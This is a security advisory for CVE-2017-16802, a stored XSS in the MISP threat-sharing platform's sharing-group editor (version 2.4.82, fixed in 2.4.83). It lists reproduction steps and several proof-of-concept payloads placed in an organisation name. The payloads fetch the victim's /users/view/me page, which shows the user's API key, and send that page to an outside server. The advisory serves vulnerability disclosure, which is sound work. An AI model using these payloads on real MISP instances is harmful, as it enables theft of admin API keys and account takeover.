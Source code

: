 # MISP - Malware Information Sharing Platform
## XSS in the sharingGroupPopulateOrganisations function

|  |  |
|---|---|
| **Vulnerability** | XSS in the sharingGroupPopulateOrganisations function | 
| **Vendor** | CIRCL (Open Source) |
| **Product** | MISP - Malware Information Sharing Platform & Open Standards For Threat Information Sharing - https://www.misp-project.org/ |
| **Vulnerable version** | 2.4.82 |
| **Fixed version** | 2.4.83 |
| **CVE** | CVE-2017-16802 |
| **CVSS Score** | 4.4 Medium |
| **CVSS Vector** | CVSS:3.0/AV:N/AC:H/PR:L/UI:R/S:C/C:L/I:L/A:N |

## References
* https://github.com/MISP/MISP/commit/a659664447a7b2a383cb9e0f6b43dcb43ec69194
* https://nvd.nist.gov/vuln/detail/CVE-2017-16802

## Description
There is an XSS in 'Edit Sharing Group' area of MISP.

Easiest way to reproduce it:

1. Create new organization with the following name: `<script>alert('XSS');</script>`
2. Go to /Global Actions > List Sharing Groups/
3. Edit existing sharing group or add new
4. Go to Organisations tab
5. Add Local Organisation
6. Select `<script>alert('XSS');</script>` and move to right by >>
7. Click Add

It could be done the same way from Add Remote Organisation.  
One possible scenario is that some organisation which we trust synchronizes with ours and we want to add them to some sharing group.  
This means that attack requires admin iteraction but the attacker can gain full admin access to victim MISP by stealing API key.  

### PoC
Stealing the API key from /users/view/me.  
There is some fake name prepended to be displayed by a victim but not the actual payload.  
Replace https://misp2.local with your controlled webserver and check logs after trying.


Follow the above steps to reproduce and put the following as an organisation name:  
`PUBLIC-NORTH-ATLANTIC-ORGANIZATION<script>$.get('/users/view/me',function(d){s=d.indexOf('<h2>User</h2>');e=d.indexOf('<div class="actions debugOff sideMenu',s);if(s>e)e=s*99;i=d.substring(s,e);$.get('https://misp2.local/'+escape(i));});</script>`

Clear version:
```html
PUBLIC-NORTH-ATLANTIC-ORGANIZATION<script>$.get('/users/view/me',function(d){
 pos_start = d.indexOf('<h2>User</h2>');
 pos_end = d.indexOf('<div class="actions debugOff sideMenu">',
pos_start);
 if(pos_start > pos_end) pos_end = pos_start*99;
 interested = d.substring(pos_start, pos_end);
 $.get('https://misp2.local/'+escape(interested));
});</script>
```

### PoC
Short version:
```html
PUBLIC-NORTH-ATLANTIC-ORGANIZATION<script>$.get('/users/view/me',function(d){$.get('https://misp2.local/'+escape(d));});</script>
```